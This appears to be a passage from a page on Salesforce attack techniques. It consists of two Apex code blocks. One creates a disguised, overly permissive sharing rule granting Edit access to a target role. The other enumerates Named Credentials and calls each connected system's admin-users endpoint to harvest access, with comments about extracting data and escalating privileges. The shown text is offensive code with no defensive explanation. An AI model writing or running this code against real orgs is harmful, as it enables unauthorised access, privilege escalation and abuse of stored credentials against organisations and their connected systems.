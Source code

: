**Sharing Rule Manipulation**:
```apex
public class SharingManipulation {
    public static void createMaliciousSharing() {
        // Create overly permissive account sharing rule
        AccountSharingRule rule = new AccountSharingRule(
            Name = 'Emergency Access Rule',
            AccountAccessLevel = 'Edit',
            CaseAccessLevel = 'Edit',
            ContactAccessLevel = 'Edit',
            OpportunityAccessLevel = 'Edit',
            SharedToType = 'Role',
            SharedToId = 'ROLE_ID'  // Target role ID
        );
        
        try {
            insert rule;
            System.debug('Malicious sharing rule created');
        } catch (Exception e) {
            System.debug('Sharing rule creation failed: ' + e.getMessage());
        }
    }
}
```

**Cross-System Integration Exploitation**:
```apex
public class IntegrationExploit {
    @future(callout=true)
    public static void exploitConnectedSystems() {
        // Harvest credentials from named credentials
        List<NamedCredential> credentials = [SELECT DeveloperName, Endpoint FROM NamedCredential];
        
        for (NamedCredential cred : credentials) {
            try {
                HttpRequest req = new HttpRequest();
                req.setEndpoint('callout:' + cred.DeveloperName + '/api/admin/users');
                req.setMethod('GET');
                
                Http http = new Http();
                HttpResponse res = http.send(req);
                
                if (res.getStatusCode() == 200) {
                    // Successfully accessed connected system
                    System.debug('Connected system accessed: ' + cred.DeveloperName);
                    
                    // Attempt to extract data or escalate privileges in connected system
                    String responseBody = res.getBody();
                    // Process response for additional exploitation
                }
            } catch (Exception e) {
                System.debug('Connection failed: ' + cred.DeveloperName);
            }
        }
    }
}
```
